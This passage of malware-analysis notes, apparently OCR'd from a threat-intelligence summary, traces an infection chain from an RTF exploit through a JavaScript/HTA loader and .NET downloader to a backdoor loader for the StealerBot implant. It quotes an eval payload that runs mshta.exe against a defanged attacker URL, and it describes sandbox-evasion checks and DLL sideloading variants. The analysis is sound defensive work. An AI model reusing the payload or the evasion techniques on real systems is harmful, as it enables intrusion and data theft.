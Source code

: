                 ```jsx
                **12javascript:eval("var gShZVnyR = new ActiveXObject('WScript.Shell');gShZVnyR.Run('mshta.exehttps://dgtk.depo-govpk[.]com/19263687/trui',0);window.close();")**
                ```
                
            - The updated **shellcode** employs techniques to bypass **sandbox detection** and complicate analysis, slightly different from previous versions:
                - It uses the **`GlobalMemoryStatusEx**` function to check the system's RAM size.
                - It attempts to load **`nlssorting.dll**,` terminating if this operation succeeds.
    2. **JavaScript Loader**
        - Once the **RTF exploit** is triggered, the **`mshta.exe`** utility is used to download a malicious **`HTA**` file from a remote server controlled by the attacker.
        - **`HTA File`**: The HTA file contains an obfuscated **JavaScript** loader, which loads additional malware, called the **Downloader Module**, into memory.
            
            ```jsx
            mshta.exe hxxps://dgtk.depo-govpk[.]com/19263687/trui
            ```
            
        - The **JavaScript loader** operates in two stages:
            1. **First Stage:**
                - It decodes and loads several strings (initially encoded with a substitution algorithm) stored as variables.
                - It checks the system's **RAM size** and terminates if the size is less than **950 MB**.
                - If the RAM size is sufficient, the loader proceeds to the next stage.
            2. **Second Stage:**
                - It enumerates subfolders under **`Windows%\Microsoft.NET\Framework\`** to identify the installed **.NET framework version**.
                - It configures the **`COMPLUS_Version`** environment variable based on the detected .NET version.
                - The loader then decodes and loads the **Downloader Module**, which is embedded as a **base64-encoded .NET serialized stream**.
    3. **Downloader Modules**
        - The **Downloader Module** is a **.NET library** used to gather information about the system's security software and download another component called the **Module Installer.**
        - The new version of **`app.dll`** (Downloader Module) improves the function used to detect security software:
            - The previous version simply used **WMI queries** to list installed security products.
            - The updated version uses a more **advanced WMI query** that retrieves the **antivirus name** and its **product state**.
            - The malware checks running processes and compares them against an embedded dictionary containing 137 process names related to popular security software.
            - The WMI query is executed only when no Kaspersky processes are running on the system.
    4. **Backdoor Loader**
        - The infection chain ends with the installation of the **Backdoor Loader**, which is used to load the **StealerBot** implant into memory.
        - **Backdoor Loader**: A legitimate, signed application is hijacked to load the **Backdoor Loader** library, which then loads **StealerBot**.
        - In recent campaigns, attackers have diversified the **Backdoor Loader** samples, using several new variants to avoid detection:
            - **Previous variants**: `propsys.dll`, `vsstrace.dll`
            - **New variants**: `JetCfg.dll`, `policymanager.dll`, `winmm.dll`, `xmllite.dll`, `dcntel.dll`, `UxTheme.dll`
        - The new malware versions incorporate enhanced anti-analysis techniques and employ **Control Flow Flattening** to avoid detection.
        - Additionally, a **new C++ version** of the **Backdoor Loader** has been discovered:
            - The logic of the C++ version is similar to the .NET versions, but it lacks the anti-analysis techniques.
            - These C++ variants were tailored for specific targets and were likely deployed manually after the infection phase, with each variant configured to load the second stage from a specific file path.
                